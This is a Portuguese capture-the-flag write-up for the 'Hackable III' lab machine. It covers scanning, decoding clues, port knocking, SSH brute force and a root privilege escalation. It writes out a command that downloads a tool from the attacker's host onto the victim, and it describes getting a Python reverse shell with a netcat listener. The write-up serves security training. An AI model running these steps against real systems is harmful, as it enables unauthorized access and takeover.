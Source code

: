 <h2>Começamos com uma varredura simples com nmap e uma varredura por diretórios.</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/1.JPG)

<h2>Lendo o código fonte, vemos uma mensagem do desenvolvedor para alguém - jubiscleudo - e mencionando sobre o port knocking, logo sabemos que tem algum serviço oculto. Também encontramos o caminho para uma página de login </h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/2.JPG)

<h2>Analisando o arquivo robots.txt vemos que a pasta config não está permitada -> Disallow: /config
acessando ela temos um arquivo chamada 1.txt, usando o hashanalyser(https://www.tunnelsup.com/hash-analyzer/) sabemos que se trata de um base64, fazendo o decode temos o seguinte: 10000</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/3.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/3.1.JPG)


<h2>Procurando nos outros diretórios(/css) encontrei o 2.txt, se trata de um Brainfuck, pesquisando por decode brainfuck encontramos algumas opções e temos como resultado 4444.</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/4.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/4.1.JPG)

<h2>Vemos uma wordlist na pasta backup que nos será útil mais tarde</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/5.JPG)


<h2>Pesquisando um pouco sobre port knocking nota-se que por default ele vem com as portas 7000,8000,9000 (3 portas são necessárias), seguindo essa lógica temos apenas os valores 1 e 2, existem 3 formas de encontrar o 3 arquivo.</h2>

<h3>1° FORMA: Fazendo uma varredura de diretórios por extensão(os 2 primeiros eram txt, o 3° não é! por isso sempre faça uma varredura "genérica")</h3>
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.1.JPG)


<h3>2° FORMA: Na varredura também podemos encontar um outro arquivo html(home.html), acessando ele e vendo a fonte vemos um comentário bem explícito que existe algum arquivo.jpg que temos que buscar, isso simplificaria muito a busca</h3>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.2.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.2.1.JPG)
img6.2
img6.2.1

<h3>3° FORMA: Na página de login que encontramos anteriormente, tentando fazer login vemos que não acontece nada pois ainda está em desenvolvimento, porém vendo a fonte encontramos nosso 3.jpg lá!</h3>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.3.JPG)
img6.3

<h2>Abrindo o 3.jpg já percebe-se que se trata de esteganografia, usaremos o steghide, usando o info vemos que existe algo lá dentro, agora extraimos ele(ao pedir senha pode apenas apertar enter já que o arquivo não possui senha). Assim temos nossa última "senha: 65535"</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/7.JPG)
img7

<h2>Usaremos o knock para "abrir" o serviço oculto, usando a mesma ordem das senhas 1-2-3, se trata de um ssh</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/8.JPG)
img8

<h2>Agora entra a wordlist que encontramos antes, como usuário temos o jubiscleudo, faremos um brute force e entraremos via ssh</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/9.JPG)
img9

<h2>A 1° flag está oculta, ls -la</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/10.JPG)
img10


<h2>Dando uma olhada nos arquivos de /var/www/html conseguimos as credenciais para outro usuário</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/11.JPG)
img11


<h2>Após fazer login no usuário hackable_3 executaremos o [pspy](link_pspy) - periodicamente  o root(UID=0) executado "python3 /scripts/to_hackable_3.py", indo até a pasta não existe o arquivo, então basta criarmos um arquivo com o mesmo caminho que será executado pelo root</h2>

atacante: python3 -m http.server
vítima: wget http://ip_kali:8000/pspy
	chmod +x
	./pspy

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/12.JPG)
img12

<h2>Agora é hora da criatividade, o root está executando nosso arquivo python, no nosso caso queremos conseguir uma reverse shell</h2>

<h2>para o reverse shell usei o de python -> [seguinte](https://shellgenerator.github.io/):</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/13.JPG)
img13

<h2>Deixamos nosso netcat ouvindo e aguardamos o processo executa nosso arquivo</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/14.JPG)
img14
